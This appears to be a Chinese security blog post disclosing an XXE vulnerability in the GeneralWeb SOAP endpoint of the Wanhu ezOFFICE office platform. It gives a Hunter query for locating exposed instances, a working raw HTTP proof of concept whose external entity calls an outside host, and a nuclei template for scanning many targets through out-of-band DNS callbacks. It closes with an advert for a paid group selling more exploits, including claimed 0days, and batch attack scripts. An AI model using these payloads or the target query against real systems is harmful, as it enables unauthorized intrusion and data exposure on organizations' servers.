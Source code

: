 #  漏洞推送|某户协同办公平台GeneralWeb_XXE漏洞   
 小白菜安全   2024-10-11 21:08  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
漏洞描述  
  
  
万户ezOFFICE协同管理平台是一个综合信息基础应用平台。 万户协同办公平台ezoffice GeneralWeb存在xxe漏洞。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
资产信息  
  
  
hunter:app.name="万户 Ezoffice OA"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wShmVIoO5CmmvRs8Q6IXHeiasWUOsic6Tv8HTo5P5K2TH5FHuZ3hDicZdA/640?wx_fmt=other&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
漏洞复现  
  
  
  
dnslog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3w4lQmySHydx9YWHBv0qxdiaiao2kmC606qNcibsxtkVHjuVDwzenX91sMg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wcT7fdg98DAMR9BajPCXbZkic4nM866dXI6WDdDZiaQakLFNTyPefgS8w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
POC  
  
```
POST /defaultroot/xfservices/./GeneralWeb HTTP/1.1
Host: 
User-Agent: Moziilla/5.0 (Linux; U; Android 2.3.6; en-us; Nexus S Build/GRK39F) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1
Connection: close
Content-Length: 453
Content-Type: text/xml;charset=UTF-8
SOAPAction: 
Accept-Encoding: gzip, deflate, br

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:gen="http://com.whir.service/GeneralWeb">
  <soapenv:Body>
    <gen:OAManager>
      <gen:input>
        &lt;?xml version="1.0" encoding="UTF-8"?&gt;
        &lt;!DOCTYPE root [
        &lt;!ENTITY x SYSTEM "http://xxxx.com"&gt;]&gt;
        &lt;root&gt;&amp;x;&lt;/root&gt;
      </gen:input>
    </gen:OAManager>
  </soapenv:Body>
</soapenv:Envelope>
```  
  
nuclei  
```
id: wanhu-GeneralWeb-XXE

info:
  name: 万户协同办公平台GeneralWeb_XXE漏洞
  author: 小白菜
  severity: critical
  description: |
    
  metadata:
    fofa-query: 
  reference:
    - https://
  tags: auto

http:
  - raw:
      - |
          POST /defaultroot/xfservices/./GeneralWeb HTTP/1.1
          Host: {{Hostname}}
          User-Agent: Moziilla/5.0 (Linux; U; Android 2.3.6; en-us; Nexus S Build/GRK39F) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1
          Content-Type: text/xml;charset=UTF-8
          SOAPAction: 
          Content-Length: 457

          <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:gen="http://com.whir.service/GeneralWeb">
            <soapenv:Body>
              <gen:OAManager>
                <gen:input>
                  &lt;?xml version="1.0" encoding="UTF-8"?&gt;
                  &lt;!DOCTYPE root [
                  &lt;!ENTITY x SYSTEM "http://{{interactsh-url}}"&gt;]&gt;
                  &lt;root&gt;&amp;x;&lt;/root&gt;
                </gen:input>
              </gen:OAManager>
            </soapenv:Body>
          </soapenv:Envelope>

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol  # Confirms the DNS Interaction
        words:
          - "dns"
```  
  
  
---------------------------------------------------  
  
更多漏洞poc（包括0day漏洞）、安全工具、批量脚本加入内部圈子获取，目前只要49，无理由3天退款，加入圈子请扫描下方二维码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wz7rEzD4jThibDB3puG8zRTD9fLx4Ndhglm3VOUhNiczqNuriccyD38ibQw/640?wx_fmt=jpeg "")  
  
  
  
漏洞文库：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wh2bIueGiaicJL46kobAMKQCktI8HFTcVM9JpwNibdMKD9ZND0ebC0rwnw/640?wx_fmt=png&from=appmsg "")  
  
  
工具收集：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3w26uxWScqm4lh60gQawZjffnNamZQR8BylhRBdjtf15dWgFsHMwrsFQ/640?wx_fmt=png&from=appmsg "")  
  
  
脚本文库：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wsdaXl2dhDDAJN3ZDl5fYWnGIckTK1vgLVHq2SHDDicic8OkMmMJ1fluw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgOaSVwdVAPT7DWSKK7pjSWGdbQKWEM0yTB3JSqNxLUnEBesOW8eG40w/640?wx_fmt=png&from=appmsg "")  
  
免责声明  
  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgAth2WTu4kyEzL1Dia7AXUWcP7tsbHDtpaH1cls1lJTPVNE6XTwLYvJg/640?wx_fmt=gif&from=appmsg "")  
  
  
  

